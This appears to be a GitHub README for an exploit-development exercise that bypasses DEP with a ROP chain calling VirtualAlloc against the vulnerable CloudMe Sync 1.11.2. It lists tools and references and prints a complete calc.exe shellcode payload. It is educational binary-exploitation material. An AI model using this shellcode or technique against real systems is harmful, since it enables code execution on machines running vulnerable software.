 # ROPme
Bypass Data Execution Prevention (DEP) Using VirtualAlloc in a ROP (Return-Oriented Programming) chains is a common technique to bypass DEP (Data Execution Prevention) by allocating executable memory in a process. The idea is to use a sequence of gadgets (short sequences of instructions ending in a return) to call VirtualAlloc or a similar function and allocate memory with PAGE_EXECUTE_READWRITE permissions. This allocated memory can then be used to execute shellcode

![image](https://github.com/user-attachments/assets/ba318158-d6c6-462b-94a8-83b803af2827)



## i start from [here](https://www.exploit-db.com/exploits/46250)
## [CloudMe Sync 1.11.2](https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe) vulnerable version
## --> i use :
### - [WINdbg](https://learn.microsoft.com/en-gb/windows-hardware/drivers/debugger)
### - [immunity Debugger](https://debugger.immunityinc.com/)
### - IDA pro 
### - SublimeText 
### - IDLE from python 
### - [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function (memoryapi.h)
### - and finaly the calculator shellcode :
```sh

# Shellcode calc.exe
shellcode = ""
shellcode += "\xdb\xde\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x31\xba\xef"
shellcode += "\xc3\xbd\x59\x83\xc0\x04\x31\x50\x14\x03\x50\xfb\x21"
shellcode += "\x48\xa5\xeb\x24\xb3\x56\xeb\x48\x3d\xb3\xda\x48\x59"
shellcode += "\xb7\x4c\x79\x29\x95\x60\xf2\x7f\x0e\xf3\x76\xa8\x21"
shellcode += "\xb4\x3d\x8e\x0c\x45\x6d\xf2\x0f\xc5\x6c\x27\xf0\xf4"
shellcode += "\xbe\x3a\xf1\x31\xa2\xb7\xa3\xea\xa8\x6a\x54\x9f\xe5"
shellcode += "\xb6\xdf\xd3\xe8\xbe\x3c\xa3\x0b\xee\x92\xb8\x55\x30"
shellcode += "\x14\x6d\xee\x79\x0e\x72\xcb\x30\xa5\x40\xa7\xc2\x6f"
shellcode += "\x99\x48\x68\x4e\x16\xbb\x70\x96\x90\x24\x07\xee\xe3"
shellcode += "\xd9\x10\x35\x9e\x05\x94\xae\x38\xcd\x0e\x0b\xb9\x02"
shellcode += "\xc8\xd8\xb5\xef\x9e\x87\xd9\xee\x73\xbc\xe5\x7b\x72"
shellcode += "\x13\x6c\x3f\x51\xb7\x35\x9b\xf8\xee\x93\x4a\x04\xf0"
shellcode += "\x7c\x32\xa0\x7a\x90\x27\xd9\x20\xfe\xb6\x6f\x5f\x4c"
shellcode += "\xb8\x6f\x60\xe0\xd1\x5e\xeb\x6f\xa5\x5e\x3e\xd4\x59"
shellcode += "\x15\x63\x7c\xf2\xf0\xf1\x3d\x9f\x02\x2c\x01\xa6\x80"
shellcode += "\xc5\xf9\x5d\x98\xaf\xfc\x1a\x1e\x43\x8c\x33\xcb\x63"
shellcode += "\x23\x33\xde\x07\xa2\xa7\x82\xe9\x41\x40\x20\xf6"
```

# Demo 
### [Youtube video](https://www.youtube.com/watch?v=Jmxx7TdAzgw) 

# References
- [CS6265: Reverse Engineering and Binary Exploitation Lab](https://tc.gts3.org/cs6265/2021/_static/tut.pdf)
- [Exploit Development: Hands Up! Give Us the Stack! This Is a ROPpery!](https://connormcgarr.github.io/ROP/)

- [Beenu Arora. Shell code for beginners](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf)
- [Exploit-db Ashfaq Ansari. Egg-hunter, a twist in buffer overflows](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf)
- [Exploit database John Leitch. Windows/x86 (xp sp3) (english) - calc.exe shellcode (16 bytes)](https://www.exploit-db.com/shellcodes/43773)
- [National institute of Standards NATIONAL VULNERABILITY DATABASE and An official website of the U.S. government Technology. Most recent official vulnerabilities in vlc media player](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=vlc&search_type=all)
- [Security Stackexchange. What does eip stand for](https://security.stackexchange.com/questions/129499/what-does-eip-stand-for)
- [Stackoverflow. What and where are the stack and heap](https://stackoverflow.com/questions/79923/what-and-where-are-the-stack-and-heap)
- [Stackoverflow. What are the esp and the ebp registers](https://stackoverflow.com/questions/21718397/what-are-the-esp-and-the-ebp-registers)
- [Stackoverflow. What is a reverse shell](https://stackoverflow.com/questions/35271850/what-is-a-reverse-shell)
- [Microsoft Support. What is a dll](https://support.microsoft.com/en-us/help/815065/what-is-a-dll)
### What are mitigations?
- Over the years, new generic defense methods have been added to the new systems, which
of course, as the name implies, do not prevent but mitigate or make exploitation more
difficult. "[Customize exploit protection]"(https://learn.microsoft.com/en-us/defender-endpoint/customize-exploit-protection)

